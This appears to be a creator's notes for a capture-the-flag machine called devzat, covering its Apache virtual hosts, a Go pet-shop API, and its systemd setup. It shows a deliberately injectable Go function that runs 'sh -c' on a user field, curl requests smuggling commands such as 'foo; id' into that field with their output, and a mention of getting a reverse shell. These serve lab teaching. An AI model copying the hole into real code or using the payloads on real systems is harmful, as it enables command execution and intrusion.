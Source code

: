 # Apache2 vhost [devzat.htb]
Landing page (Templated HTML5) will not give you much. Just instructions on how to use the secure version of devzat: `ssh -l [username] devzat.htb -p 8000`. It will give you hints on how to progress the box (in form of a forged chat history) if you login as `patrick`, `catherine` or `admin`. If you are not logging in from `127.0.0.1` you will be forced to change your nick.

# Apache2 vhost [pets.devzat.htb]
pets.devzat.htb will have a go application - webservice (petshop executable - systemd service)
	- It has .git folder for source (git-dumper can recover source)
	- this app has /api/pets
	- you can do POST request
	- It is supposed to pull in *Characteristics* by using an insecure function

## Vulnerable function
User has control over field **species**. When using *cat* it will pull file called *cat* and same applies for the other species.

```go
func loadCharacter(species string) string {
	cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
	stdoutStderr, err := cmd.CombinedOutput()
	if err != nil {
		return err.Error()
	}
	return string(stdoutStderr)
}
```

The page is rendering as a form. So either you  can send it through a proxy like burp and tinker with the species field like:

```bash
{
	"name": "Something",
	"species": "foo; <cmd>"
}
```

Or you could use `curl` to leverage this vulnerablility like:

```bash
$ curl -X POST "http://localhost:5000/api/pet" -d '{"name":"Something","species":"foo; id"}' -H "'Content-Type': 'application/json'"
Pet was added successfully%   

$ curl "http://localhost:5000/api/pet" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1016  100  1016    0     0  1178k      0 --:--:-- --:--:-- --:--:--  992k
[
 [... snip ...]
  {
    "name": "Something",
    "species": "foo; id",
    "characteristics": "cat: foo: No such file or directory\nuid=1000(patrick) gid=1000(patrick) snip ...\n"
  }
]
```

Using a bash reverse shell or anything else (pythons on the box, too) will give you reverse shell as user **patrick**.

## Cleanup
The go app cleans up the pets (and potential payloads) in a 5 second ticker event. It will reload to the few prestaged animals. So this will surely prevent multiple players from seeing eahc others payloads.

## Autostart
**systemd service**
```bash
[Unit]
Description=My Pet Inventory
After=network.target

[Service]
Type=simple
User=patrick
Group=patrick
Restart=always
RestartSec=5s

WorkingDirectory=/home/patrick/pets
ExecStart=/home/patrick/pets/start.sh
SyslogIdentifier=petshop

[Install]
WantedBy=multi-user.target
```
**start.sh**
```bash
#!/bin/bash
until ./petshop; do
    echo "Server 'petshop' crashed with exit code $?.  Respawning.." >&2
    sleep 1
done
```

# Apache2 Config
```bash
root@devzat:~# cat /etc/apache2/sites-available/000-default.conf 
<VirtualHost *:80>
    AssignUserID www-data www-data
    ServerName devzat.htb
    ServerAlias devzat.htb
    ServerAdmin support@devzat.htb
    DocumentRoot /var/www/html

    # Rewrite IP to hostname
    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^devzat.htb$
    RewriteRule /.* http://devzat.htb/ [R]

    # Logging
    LogFormat "%h %l %u %t \"%r\" %>s %b"
    ErrorLog /var/log/apache2/landing_error.log    
    CustomLog /var/log/apache2/landing.log combined
</VirtualHost>

<VirtualHost *:80>
    AssignUserID patrick patrick
    ServerName pets.devzat.htb
    ServerAlias pets.devzat.htb
    ServerAdmin support@pets.devzat.htb

    # Reverse Proxy to petshop api
    ProxyPreserveHost On
    ProxyPass / http://127.0.0.1:5000/
    ProxyPassReverse / http://pets.devzat.htb:80/

    # Logging
    LogFormat "%h %l %u %t \"%r\" %>s %b"
    ErrorLog /var/log/apache2/petshop_error.log    
    CustomLog /var/log/apache2/petshop.log combined
</Virtualhost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```
